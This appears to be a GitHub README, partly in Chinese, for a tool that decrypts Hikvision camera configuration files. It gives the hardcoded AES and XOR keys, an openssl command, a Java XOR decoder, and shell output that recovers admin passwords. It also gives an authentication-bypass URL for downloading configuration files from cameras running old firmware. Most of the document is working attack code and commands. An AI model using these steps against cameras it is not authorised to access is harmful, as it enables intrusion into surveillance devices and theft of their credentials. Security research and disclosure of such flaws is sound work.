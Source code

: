 # Hikvision Decrypter (AES+XOR)

## 0x01 AES ECB 128 Decrypt

```
unsigned char* aesKey = new unsigned char[16]{ 0x27, 0x99, 0x77, 0xf6, 0x2f, 0x6c, 0xfd, 0x2d, 0x91, 0xcd, 0x75, 0xb8, 0x89, 0xce, 0x0c, 0x9a };
```

**`aesKey=279977f62f6cfd2d91cd75b889ce0c9a`**

利用OpenSSL解密 -aes-128-ecb

Ubuntu 系统下：

`openssl enc -d -in configurationFile -out decryptedoutput -aes-128-ecb -K 279977f62f6cfd2d91cd75b889ce0c9a -nosalt -md md5`

得到解密文件decryptedoutput
```
╭─root@Ubuntu18 /tmp/test
╰─# openssl enc -d -in configurationFile -out decryptedoutput -aes-128-ecb -K 279977f62f6cfd2d91cd75b889ce0c9a -nosalt -md md5
╭─root@Ubuntu18 /tmp/test
╰─# hash256 decryptedoutput
971cf177d8d952a4eeaf2274d67dc464e0711550a742099fefca6ddd9da4b13a  decryptedoutput
╭─root@Ubuntu18 /tmp/test
╰─#
```
## 0x02 Xor Decrypt

`unsigned char* xorKey = new unsigned char[4]{ 0x73, 0x8B, 0x55, 0x44 };`

`xorKey = 0x73, 0x8B, 0x55, 0x44`


#### XORDecode.java

```
import java.io.File;
import java.io.FileOutputStream;
import java.io.IOException;
import java.nio.file.Files;

class XORDecode {
    public static void main(String[] args) throws IOException {
        
        File file = new File("decryptedoutput");//解密文件
        byte[] fileContents = Files.readAllBytes(file.toPath());
        byte[] xorOutput = new byte[fileContents.length];

        byte[] key = {(byte) 0x73, (byte) 0x8B, (byte) 0x55, (byte) 0x44};

        for (int i = 0; i < fileContents.length; i++) {
            xorOutput[i] = (byte) ((int) fileContents[i] ^ (int) key[i % key.length]);
        }

        FileOutputStream stream = new FileOutputStream("plaintextOutput");
        stream.write(xorOutput);


    }
}
```

```
╭─root@Ubuntu18 /tmp/test
╰─# javac XORDecode.java
╭─root@Ubuntu18 /tmp/test
╰─# java XORDecode
╭─root@Ubuntu18 /tmp/test
╰─# hash256 plaintextOutput
243a4e96f4e1313fe32bcc510988d5a65b4474179ca7ec92bdb66b397d8a66b6  plaintextOutput
╭─root@Ubuntu18 /tmp/test
╰─# string plaintextOutput > s.txt

```

利用grep 匹配admin上一行和下一行的内容

```
  -B, --before-context=NUM  print NUM lines of leading context
  -A, --after-context=NUM   print NUM lines of trailing context
```

```
╭─root@Ubuntu18 /tmp/test
╰─# cat s.txt|grep -B 1  -A 1 'admin'
www.hik-online.com
admin
12345
--
700783721
admin
ww123456
╭─root@Ubuntu18 /tmp/test
╰─#
```

得到密码为 **`ww123456`**



~~**FYI this script is soon going to be replaced. I am actively working on an all-encompassing utility that does all the steps listed below**~~

**After a year of putting it off, I finally got around to building said all-encompassing utility. It can be found [here](https://github.com/WormChickenWizard/hikvision-decrypter)**

Hikvision configuration files use two layers of encryption, 

It first XOR encrypts the configuration file then it proceed to encrypt it with aes 128-bit ecb encryption(electronic codebook).

## Notes

I might as well add this for reference far into the future: this was written in java version 8u191
if for whatever reason you are running into problems, use that version instead.

## Obtaining the Hikvision configuration file

If you are trying to get into a Hikvision camera with an old firmware, 
use this link to get the camera's configuration file: 
```
http://camera.ip/System/configurationFile?auth=YWRtaW46MTEK
```
Just make sure to substitute camera.ip with the ip address of the camera.

## Steps for breaking the AES encryption on the configuration file

Now that you have the configuration file, if you are on windows download the ubuntu subsystem and install openssl.
Once installed, navigate to the location where the config file is and run the following command:
```
openssl enc -d -in configurationFile -out decryptedoutput -aes-128-ecb -K 279977f62f6cfd2d91cd75b889ce0c9a -nosalt -md md5
```
You should have a new file called "decryptedoutput". This file has the AES encryption broken but, but still is XOR encoded which is where the script I wrote comes into play.

## XOR decode script compilation and using

I'm going to make the assumption that the jdk is installed and the path variable is setup correctly

1.) Clone this repository (or download the zip whatever is easier)

2.) Navigate to XORDecode.java in a command prompt and run:
```
javac XORDecode.java
```
3.) Make a new folder and put the resulting .class file in there as well as the decryptedoutput file

4.) Open command prompt in that folder you just made with the two files inside it and run:
```
java XORDecode
```
5.) You now should get a plaintextOutput file. Congratulations!

Supposedly this is a sqlite3 database. Problem is You can't open it in a normal text editor like notepad

If you have a database viewer you are more than welcome to use it.
For simplicity's sake, I used a hex editor to view its contents. I personally use Frhed which works fine.
